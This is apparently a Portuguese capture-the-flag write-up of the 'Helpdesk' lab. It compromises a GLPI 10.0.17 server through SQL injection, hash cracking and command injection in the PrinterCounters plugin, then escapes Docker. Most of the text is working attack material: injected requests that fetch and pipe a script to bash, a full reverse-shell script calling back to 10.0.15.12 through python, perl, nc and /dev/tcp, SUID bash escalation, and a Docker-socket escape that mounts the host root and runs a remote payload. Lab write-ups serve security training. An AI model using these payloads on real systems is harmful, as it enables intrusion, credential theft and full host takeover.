

Helpdesk — HC
GLPI 10.0.17 vulnerável a SQLi via Metasploit expõe hashes de usuários. Após quebra do hash com John, acesso autenticado permite RCE via plugin PrinterCounters. Escalada via SUID bash no container e Docker escape explorando socket exposto para comprometer o host.
Metasploit
John
PrinterCounters
root (container)
/var/run/docker.sock
Escopo: 172.16.1.244
Information Gathering
Vamos iniciar esse novo projeto efetuando o processo de coleta de informações sobre o ambiente.
Portscan
Inicialmente vamos verificar as portas e serviços que estão ativos no ambiente.
bash$ sudo nmap --open -Pn -p- --min-rate 200 --max-rate 500 -sS 172.16.1.244 -oA ALL-TCP-HELPDESK
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-18 10:55 -03
Nmap scan report for 172.16.1.244
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
8080/tcp open http-proxy
Nmap done: 1 IP address (1 host up) scanned in 146.62 seconds
Com as portas e serviços previamente identificados no ambiente, prosseguimos com a verificação das versões e coleta de informações adicionais por meio do Nmap.
bash$ sudo nmap --open -Pn -p22,80,8080 -sVC 172.16.1.244 -oA Services-TCP-HELPDESK
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-18 11:03 -03
Nmap scan report for 172.16.1.244
Host is up (0.15s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 1f:10:28:13:20:a1:8a:ab:0f:d4:56:26:bb:72:66:13 (ECDSA)
|_ 256 24:b5:78:c8:56:c7:d9:d3:b1:ab:8a:98:03:8b:65:62 (ED25519)
80/tcp open http Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Help Desk - Technical Support Solution
|_http-server-header: Apache/2.4.58 (Ubuntu)
8080/tcp open http Apache httpd 2.4.62 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.79 seconds
Configuração do arquivo hosts
Para facilitar a resolução de nomes, adicionamos o domínio diretamente no arquivo hosts.
bash$ echo '172.16.1.244 helpdesk.hc' | sudo tee -a /etc/hosts
Enumeração Web - Porta 80
Ao acessarmos o serviço HTTP na porta 80, nos deparamos com a seguinte página inicial:

A análise da página inicial revela que se trata de um conteúdo estático, sem funcionalidades dinâmicas aparentes. Vamos efetuar uma enumeração de arquivos e diretórios, a fim de identificar possíveis conteúdos ocultos.
bash$ ffuf -w /usr/share/wordlists/diretorios-web-wordlist.txt -u http://helpdesk.hc/FUZZ -c -r
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://helpdesk.hc/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/diretorios-web-wordlist.txt
:: Follow redirects : true
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
[Status: 200, Size: 29549, Words: 11191, Lines: 479, Duration: 670ms]
.htaccess [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 144ms]
.hta [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 145ms]
.htpasswd [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 145ms]
index.html [Status: 200, Size: 29549, Words: 11191, Lines: 479, Duration: 146ms]
server-status [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 143ms]
:: Progress: [89621/89621] :: Job [1/1] :: 279 req/sec :: Duration: [0:05:33] :: Errors: 0 ::
Nenhum arquivo ou diretório acessível foi identificado que pudesse ser explorado para dar continuidade ao processo de exploração.
Enumeração Web - Porta 8080
Ao acessarmos o serviço HTTP na porta 8080, nos deparamos com a seguinte página inicial:

O acesso à aplicação requer credenciais válidas, e as tentativas com credenciais padrão não foram bem-sucedidas. Com isso, partimos para a enumeração de arquivos e diretórios ocultos em busca de possíveis vetores de acesso.
bash$ ffuf -w /usr/share/wordlists/diretorios-web-wordlist.txt -u http://helpdesk.hc:8080/FUZZ -c -r
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : GET
:: URL : http://helpdesk.hc:8080/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/diretorios-web-wordlist.txt
:: Follow redirects : true
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
.htaccess [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 144ms]
.htpasswd [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 144ms]
.hta [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
[Status: 200, Size: 10166, Words: 3288, Lines: 246, Duration: 3891ms]
LICENSE [Status: 200, Size: 35148, Words: 5836, Lines: 674, Duration: 146ms]
ajax [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 144ms]
bin [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 144ms]
config [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
css [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 148ms]
files [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 144ms]
front [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 145ms]
inc [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 145ms]
index.php [Status: 200, Size: 10166, Words: 3288, Lines: 246, Duration: 189ms]
install [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 152ms]
js [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 144ms]
lib [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 144ms]
locales [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
marketplace [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 144ms]
pics [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 146ms]
plugins [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
public [Status: 200, Size: 10243, Words: 3288, Lines: 246, Duration: 204ms]
resources [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
server-status [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
sound [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
src [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
templates [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
vendor [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
version [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 145ms]
:: Progress: [89621/89621] :: Job [1/1] :: 277 req/sec :: Duration: [0:05:52] :: Errors: 0 ::
Como não foi possível identificar arquivos ou diretórios úteis para exploração, o próximo passo é tentar descobrir a versão da aplicação GLPI em execução.

Após a versão identificada, é possível realizar uma busca no Google em busca de vulnerabilidades conhecidas associadas ao serviço em questão. Podemos utilizar a dork:
dorkglpi 10.0.17 exploit
Link de referência: https://blog.lexfo.fr/glpi-sql-to-rce.html
Realizamos alguns testes com base no artigo de referência utilizando o Burp Suite, porém não obtivemos os mesmos resultados. Ao investigarmos no Metasploit Framework, identificamos a existência de um módulo específico para a vulnerabilidade. Após configurar os parâmetros necessários e executar o módulo, foi confirmada a vulnerabilidade no host alvo. Vamos aguardar o termino da execução.

Assim que a execução bem-sucedida do exploit, foi possível obter os hashes de senha dos usuários cadastrados na aplicação.
outputglpi_users
==========
user password api_token
---- -------- ---------
Plugin_ELPI_Inventory 36
glpi $2y$10$fucVSHUcQTnd4JgCos6wn.XWijq64Em2vALli0NIRqGax9FPiPh0q
glpi-system
normal $2y$10$DzpsWVk6/E58rQMov8ZbXOMJ1jLFQw10G7soOI0EF0OVtPd6cpV6m
post-only $2y$10$rh.xhQiCT8Rjq6HPFKfeiOIXW2zoOmPYa.3OYUyjlsFPvbqEioCG.
tech $2y$10$6XAeLVTMDwCmcO6mtJWZsuG0JYKX.lzZyeny8vSONSjDxH0R2ot8O
[*] Auxiliary module execution completed
Durante os testes com usuários padrão da aplicação GLPI, identificamos que apenas o usuário glpi estava ativo. Com isso, extraímos o hash correspondente e preparamos um arquivo para utilização no Hashcat, com o objetivo de realizar a quebra da senha.
bash$ john -w=/usr/share/wordlists/rockyou.txt hash-glpi1 --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwertyuiop (?)
1g 0:00:00:09 DONE (2025-04-18 12:56) 0.1097g/s 37.54p/s 37.54c/s 37.54C/s strawberry..ihateyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
Agora que conseguimos realizar a quebra do hash do usuário glpi podemos efetuar a validação da credencial efetuando a autenticação na aplicação.

Exploração
A partir desse momento podemos tentar obter uma execução de comandos remota (RCE) através do método descrito no artigo encontrado. Inicialmente efetuamos a captura da requisição da tela do plugin conforme mencionado no artigo, em seguida enviamos uma requisição utilizando o curl para validar a comunicação entre os hosts.
http requestPOST /plugins/printercounters/ajax/process.php HTTP/1.1
Host: helpdesk.hc:8080
Content-Length: 58
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: text/html, */*; q=0.01
X-Glpi-Csrf-Token: c95e95fc9d6159f5518f6a88f46ef36546b502314b1e3574e49c6daead58f86b
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://helpdesk.hc:8080
Referer: http://helpdesk.hc:8080/plugins/printercounters/front/config.form.php
Accept-Encoding: gzip, deflate, br
Cookie: glpi_8a3b8c36c63440d18cee792876d37eab=e6f6b2484ec4f28949ddf254d9b9c29b; glpi_8a3b8c36c63440d18cee792876d37eab_rememberme=%5B2%2C%22F43724QsYzltjbvWG1kfuXLFbwkORayeHoOWklxW%22%5D
Connection: keep-alive
action=killProcess&items_id=1231231';curl+10.0.15.12/aaaa;#
Ao enviarmos a requisição para a porta 80, recebemos uma resposta confirmando que a comunicação com o host atacante foi bem-sucedida.

Agora que temos a confirmação da execução de comandos remota (RCE) e comunicação com nosso host de ataque, podemos enviar um arquivo para obtermos uma conexão reversa. Para isso iremos utilizar o site https://reverse-shell.sh/.
bash# Reverse Shell as a Service
# https://github.com/lukechilds/reverse-shell
#
# 1. On your machine:
# nc -l 1337
#
# 2. On the target machine:
# curl https://reverse-shell.sh/yourip:1337 | sh
#
# 3. Don't be a dick
if command -v python > /dev/null 2>&1; then
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.15.12",443)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
exit;
fi
if command -v perl > /dev/null 2>&1; then
perl -e 'use Socket;$i="10.0.15.12";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
exit;
fi
if command -v nc > /dev/null 2>&1; then
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.15.12 443 >/tmp/f
exit;
fi
if command -v sh > /dev/null 2>&1; then
/bin/sh -i >& /dev/tcp/10.0.15.12/443 0>&1
exit;
fi
Com o arquivo de payload devidamente criado, utilizamos o Burp Suite para enviar a requisição responsável pelo download e execução do script no host alvo.
http requestPOST /plugins/printercounters/ajax/process.php HTTP/1.1
Host: helpdesk.hc:8080
Content-Length: 59
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: text/html, */*; q=0.01
X-Glpi-Csrf-Token: c95e95fc9d6159f5518f6a88f46ef36546b502314b1e3574e49c6daead58f86b
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://helpdesk.hc:8080
Referer: http://helpdesk.hc:8080/plugins/printercounters/front/config.form.php
Accept-Encoding: gzip, deflate, br
Cookie: glpi_8a3b8c36c63440d18cee792876d37eab=e6f6b2484ec4f28949ddf254d9b9c29b; glpi_8a3b8c36c63440d18cee792876d37eab_rememberme=%5B2%2C%22F43724QsYzltjbvWG1kfuXLFbwkORayeHoOWklxW%22%5D
Connection: keep-alive
action=killProcess&items_id=1231231';curl+10.0.15.12/shell|bash;#
Assim que executamos a requisição obtemos a conexão reversa com o ambiente.

OBS: Para conexão reversa utilizamos o script Penelope. https://github.com/brightio/penelope
Com acesso interativo no host podemos ir em busca da nossa primeira evidência que está localizada dentro da raiz (/) do sistema.

Efetuado algumas analises de forma manual identificamos que estamos dentro de container(docker).
Escalação de Privilégios
Para dar continuidade ao processo de exploração, é necessário realizar a escalada de privilégios e obter acesso como usuário root. Somente com privilégios elevados será possível, posteriormente, realizar o escape do ambiente Docker para o host. Para isso vamos utilizar a ferramenta CDK.
Link de referência: https://github.com/cdk-team/CDK
bash$ wget http://10.0.15.12/cdk_linux
--2025-04-18 17:01:53-- http://10.0.15.12/cdk_linux
Connecting to 10.0.15.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10395800 (9.9M) [application/octet-stream]
Saving to: 'cdk_linux'
cdk_linux 100%[===================>] 9.91M 50.6KB/s in 2m 35s
2025-04-18 17:04:29 (65.4 KB/s) - 'cdk_linux' saved [10395800/10395800]
Após a transferência da ferramenta fornecemos permissão de execução e aguardamos a conclusão da enumeração. Terminado a enumeração identificamos que o binário /usr/bin/bash está com permissões SUID atribuídas, a qual nos permite obter acesso de root no container.
Vamos executar o binário utilizando o parâmetro -p.


Com o acesso root obtido, executamos novamente a ferramenta CDK com o objetivo de identificar possíveis vetores de interação direta com o host Docker. Ao final da execução, um ponto de destaque foi a identificação de que o socket do Docker estava montado dentro do container como /docker.sock, indicando a possibilidade de comunicação direta com o daemon do Docker no host.
Isso significa que o container tem acesso direto ao Docker daemon do host.

Se o processo dentro do container conseguir interagir com esse socket (via curl, docker ou similar), ele pode:
- Listar, criar e executar containers
- Montar o sistema de arquivos do host
- Executar comandos no host
- Obter root no host
A partir dessa descoberta, identificamos que é possível listar os containers existentes, com o objetivo de, posteriormente, criar um novo container que nos permita executar comandos diretamente no host.
Link de referência: https://0xn3va.gitbook.io/cheat-sheets/container/escaping/exposed-docker-socket
bash# curl -s --unix-socket /var/run/docker.sock http://localhost/containers
[{"Id":"fe36747c56c296e6ccfe1b31f48ef8cb1ee5fb4a998b715ceaceb3a1eaf7246b","Names":["/glpi"],"Image":"glpi_glpi","ImageID":"sha256:bbd48bef44ae6a74f4280f81297ef820435cada5b91c3f76b84ccf24082c4a89","Command":"docker-php-entrypoint apache2-foreground","Created":1744213622,"Ports":[{"IP":"0.0.0.0","PrivatePort":80,"PublicPort":8080,"Type":"tcp"},{"IP":"::","PrivatePort":80,"PublicPort":8080,"Type":"tcp"}],"Labels":{"com.docker.compose.config-hash":"55ba5d4e98d0a66164d8bec3ab268e00b776e652e9f93f99d9cd5d51ac6e3f7d","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"glpi","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/opt/glpi","com.docker.compose.service":"glpi","com.docker.compose.version":"1.29.2"},"State":"running","Status":"Up 4 hours","HostConfig":{"NetworkMode":"glpi_default"},"NetworkSettings":{"Networks":{"glpi_default":{"IPAMConfig":null,"Links":null,"Aliases":null,"MacAddress":"02:42:ac:1b:00:03","NetworkID":"393ee402e86f05b5faf5a76c9d59f2724519c21b8509c18041f684211b5102df","EndpointID":"aa82f2a0e2133738d771b2b6270ee416c7ce9e2a1b77e5f17124c41cdfbac783","Gateway":"172.27.0.1","IPAddress":"172.27.0.3","IPPrefixLen":16,"IPv6Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"DriverOpts":null,"DNSNames":null}}},"Mounts":[{"Type":"bind","Source":"/opt/glpi/flag.txt","Destination":"/flag.txt","Mode":"rw","RW":true,"Propagation":"rprivate"},{"Type":"bind","Source":"/var/run/docker.sock","Destination":"/var/run/docker.sock","Mode":"rw","RW":true,"Propagation":"rprivate"},{"Type":"volume","Name":"glpi_glpi_data","Source":"/var/lib/docker/volumes/glpi_glpi_data/_data","Destination":"/var/www/html","Driver":"local","Mode":"rw","RW":true,"Propagation":""},{"Type":"bind","Source":"/opt/glpi/plugins","Destination":"/var/www/html/plugins","Mode":"rw","RW":true,"Propagation":"rprivate"}]},{"Id":"2c7757021d33cd2de80034abcf0744062142f5edc4f24bb9644d53a113c7bc55","Names":["/glpi_db"],"Image":"mysql:5.7","ImageID":"sha256:5107333e08a87b836d48ff7528b1e84b9c86781cc9f1748bbc1b8c42a870d933","Command":"docker-entrypoint.sh mysqld","Created":1744213622,"Ports":[{"PrivatePort":33060,"Type":"tcp"},{"PrivatePort":3306,"Type":"tcp"}],"Labels":{"com.docker.compose.config-hash":"c08ce330e46d3591f2b87c2db85359dad9ade7943f279ea82e71057325dd5f87","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"glpi","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/opt/glpi","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"},"State":"running","Status":"Up 4 hours","HostConfig":{"NetworkMode":"glpi_default"},"NetworkSettings":{"Networks":{"glpi_default":{"IPAMConfig":null,"Links":null,"Aliases":null,"MacAddress":"02:42:ac:1b:00:02","NetworkID":"393ee402e86f05b5faf5a76c9d59f2724519c21b8509c18041f684211b5102df","EndpointID":"c219c93e4125a77007052e8a0f11eca54b455193265f2fa480d7ce9dabf832ec","Gateway":"172.27.0.1","IPAddress":"172.27.0.2","IPPrefixLen":16,"IPv6Gateway":"","GlobalIPv6Address":"","GlobalIPv6PrefixLen":0,"DriverOpts":null,"DNSNames":null}}},"Mounts":[{"Type":"volume","Name":"glpi_db_data","Source":"/var/lib/docker/volumes/glpi_db_data/_data","Destination":"/var/lib/mysql","Driver":"local","Mode":"rw","RW":true,"Propagation":""}]}]
Ao executarmos o comando via curl para listar os containers, identificamos a imagem glpi_glpi, que já estava presente no ambiente e possuía as dependências necessárias para execução. Por esse motivo, optamos por reutilizá-la na criação de um novo container privilegiado.
Utilizando a imagem identificada, criamos um novo container em modo privilegiado com o diretório raiz do host montado em /mnt. Para isso, utilizamos uma requisição via curl diretamente no socket Docker exposto, conforme o exemplo abaixo:
bash# curl --unix-socket /run/docker.sock -X POST http://localhost/containers/create \
-H "Content-Type: application/json" \
-d '{
"Image": "glpi_glpi",
"Tty": true,
"OpenStdin": true,
"HostConfig": {
"Privileged": true,
"Binds": ["/:/mnt"]
}
}'
{"Id":"8be5a97c4db9c4cb07f38f7f071411c2267102d0bf99e3e41f5984657a5b44e0","Warnings":[]}
Essa configuração permite que o container tenha acesso total ao sistema de arquivos do host, viabilizando a leitura, modificação e execução de arquivos fora do ambiente isolado do Docker. Agora será necessário iniciarmos o container criado.
bash# curl --unix-socket /run/docker.sock -X POST http://localhost/containers/8be5a97c4db9c4cb07f38f7f071411c2267102d0bf99e3e41f5984657a5b44e0/start
Após iniciar o novo container com o sistema de arquivos do host montado em /mnt, o próximo passo será transferir a reverse shell para o host. Para isso, utilizamos o Docker Socket para criar uma sessão exec dentro do container com o seguinte comando:
bash# curl --unix-socket /run/docker.sock -s -X POST http://localhost/containers/8be5a97c4db9c4cb07f38f7f071411c2267102d0bf99e3e41f5984657a5b44e0/exec \
-H "Content-Type: application/json" \
-d '{
"AttachStdout": true,
"AttachStderr": true,
"Tty": false,
"Cmd": ["curl", "-o", "/tmp/shell-root", "http://10.0.15.12/shell-root"]
}'
{"Id":"b3694fd27042e6cbdfa2f94abb24159dd7a4a868ba2f898fa06057851ea71f8e"}
Esse comando instrui o container a fazer o download da payload (shell reversa) hospedada em nosso servidor controlado. Com a sessão exec criada, é necessário efetuarmos a execuação.
bash# curl --unix-socket /run/docker.sock -s -X POST http://localhost/exec/b3694fd27042e6cbdfa2f94abb24159dd7a4a868ba2f898fa06057851ea71f8e/start \
-H "Content-Type: application/json" \
-d '{"Detach": false, "Tty": false}'
Em seguida, vamos criar uma nova sessão exec para que possamos aplicar permissão de execução no arquivo de shell baixada.
bash# curl --unix-socket /run/docker.sock -s -X POST http://localhost/containers/8be5a97c4db9c4cb07f38f7f071411c2267102d0bf99e3e41f5984657a5b44e0/exec \
-H "Content-Type: application/json" \
-d '{
"AttachStdout": true,
"AttachStderr": true,
"Tty": false,
"Cmd": ["chmod", "+x", "/tmp/shell-root"]
}'
{"Id":"922489bfbe9237f61a35793a55045a95808d964045db2a1caccd4f73bd4d4dff"}
E mais uma vez, iniciamos a sessão:
bash# curl --unix-socket /run/docker.sock -s -X POST http://localhost/exec/922489bfbe9237f61a35793a55045a95808d964045db2a1caccd4f73bd4d4dff/start \
-H "Content-Type: application/json" \
-d '{"Detach": false, "Tty": false}'
Com o arquivo de shell pronta para ser executado, criamos uma última sessão exec para executar o payload dentro do container (que possui o vinculo para /mnt do host).
bash# curl --unix-socket /run/docker.sock -s -X POST http://localhost/containers/8be5a97c4db9c4cb07f38f7f071411c2267102d0bf99e3e41f5984657a5b44e0/exec \
-H "Content-Type: application/json" \
-d '{
"AttachStdout": true,
"AttachStderr": true,
"Tty": false,
"Cmd": ["bash", "/tmp/shell-root"]
}'
{"Id":"a7a419283dea9ad924c42e67376ae6e0ba9d47aea97442256b3607133ee0f7fe"}
Agora vamos executar para obtermos nossa conexão reversa.
bash# curl --unix-socket /run/docker.sock -s -X POST http://localhost/exec/a7a419283dea9ad924c42e67376ae6e0ba9d47aea97442256b3607133ee0f7fe/start \
-H "Content-Type: application/json" \
-d '{"Detach": false, "Tty": false}'
Assim que executado obtemos acesso reverso como root no container criado.

A partir do acesso root no container, conseguimos navegar até o diretório /mnt, que corresponde à raiz do host, permitindo interação direta com o sistema principal. Assim conseguimos obter nossa última evidência dentro diretório /mnt/root.

Obtida na raiz / do container após acesso via RCE
Obtida em /mnt/root após Docker escape via socket